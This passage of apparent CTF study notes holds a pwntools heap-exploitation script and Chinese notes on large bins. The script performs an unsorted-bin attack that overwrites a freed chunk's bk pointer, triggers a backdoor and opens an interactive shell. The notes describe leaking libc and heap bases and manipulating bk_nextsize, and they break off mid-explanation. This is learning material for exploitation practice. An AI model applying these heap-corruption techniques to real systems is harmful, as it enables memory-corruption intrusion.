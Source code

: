 ```python
def choose(choice):
	p.sendlineafter(b'choice :', str(choice))

def create_heap(size, content):
	choose(1)
	p.sendlineafter(b'Heap : ', str(size))
	p.sendafter(b'heap:', content)

def edit_heap(idx, size, content):
	choose(2)
	p.sendlineafter(b'Index :', str(idx))
	p.sendlineafter(b'Heap : ', str(size))
	p.sendafter(b'heap : ', content)

def show_heap():
	choose(1)

def delete_heap(idx):
	choose(3)
	p.sendlineafter(b'Index :', str(idx))

def exit():
	choose(4)

def to_backdoor():
	p.sendafter(b'choice :', b'114514')

magic = 0x6020a0

create_heap(0x20, b'a' * 0x20)
create_heap(0x80, b'b' * 0x80)
create_heap(0x20, b'c' * 0x20)
delete_heap(1)
fd = 0
bk = magic - 0x10
edit_heap(0, 0x20 + 0x20, b'd' * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk))
create_heap(0x80, b'dada')
pause()
to_backdoor()

p.interactive()
```
## large bin
https://bbs.kanxue.com/thread-273418.htm
### 概念
large_bin是一种堆分配的管理方式，是**双向链表**，用于管理大于某个特定大小阈值的内存块。**一般而言，进入large_bin的最低字节为0x200(512)**。但由于引入了tcache_bin，使得**在tcache_bin尚未填满的情况下，进入large_bin的最低字节为0x410(1040)**，所以一般我们设置大堆块都是0x410起步。
在 free 一个 unsorted bin 后再申请一个大于该 unsorted bin 的 chunk，这个unsorted bin 就会进入 large bin，当然这个 chunk 的大小要符合 large bin 的大小。
### large bin attack
首先 large bin 可以泄漏 libc 基址和 heap 基址
![[Pasted image 20250531115700.png]]
其次，简单来说，只要修改 bk_nextsize 为 target_addr - 0x20

